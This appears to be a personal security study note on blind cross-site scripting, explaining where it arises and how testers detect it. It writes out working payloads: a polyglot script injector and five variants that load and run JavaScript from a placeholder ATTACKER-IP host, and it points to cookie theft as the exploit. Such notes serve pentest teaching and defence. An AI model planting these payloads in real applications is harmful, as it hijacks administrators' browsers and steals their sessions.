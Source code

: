 Blind XSS vulnerabilities are a variant of stored XSS vulnerabilities. They occur when an attacker input is saved in the database and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded.

Other example of web applications or pages where blind XSS may occur:
- Log viewers
- Exception handlers
- Chat applications / forums
- Customer ticket applications
- Product reviews
- Any application that requires user moderation by certain users (e.g Admins)
## Detection
To test for blind XSS vulnerabilities, attackers can use out-of-band techniques with the Burp Collaborator server or using their own custom script.
### Burp Collaborator
1. Right-click the request you want to investigate and select Send to Repeater.
2. In the Repeater tab, change a parameter's value to a proof-of-concept payload. As you don't know which characters may be filtered or encoded, use a payload that works in most contexts, such as: `</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/BURP-COLLABORATOR-SUBDOMAIN/).slice(2), document.documentElement.appendChild(s))//'>`.
3. Click Send.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.
### Custom Remote Script
An attacker can create their own custom script and host it on a server they own. Once a custom script is available, an attacker can start a listener using `netcat` or `php` or `python`.

With that, an attacker can start testing various XSS payloads that load a remote script and see which of them sends a request. The following are a few examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss).
1. `<script src=http://ATTACKER-IP/script-fieldname.js></script>`
2. `'><script src=http://ATTACKER-IP/script-fieldname.js></script>`
3. `javascript:eval('var a=document.createElement(\'script\');a.src=\'http://ATTACKER-IP/script-fieldname.js\';document.body.appendChild(a)')`
4. `<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ATTACKER-IP/script-fieldname.js");a.send();</script>`
5. `<script>$.getScript("http://ATTACKER-IP/script-fieldname.js")</script>`
## Exploit
Blind XSS vulnerabilities can be exploited to [steal user cookies](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FAdvanced%20XSS%20PoC%2FSteal%20Website%20Cookies).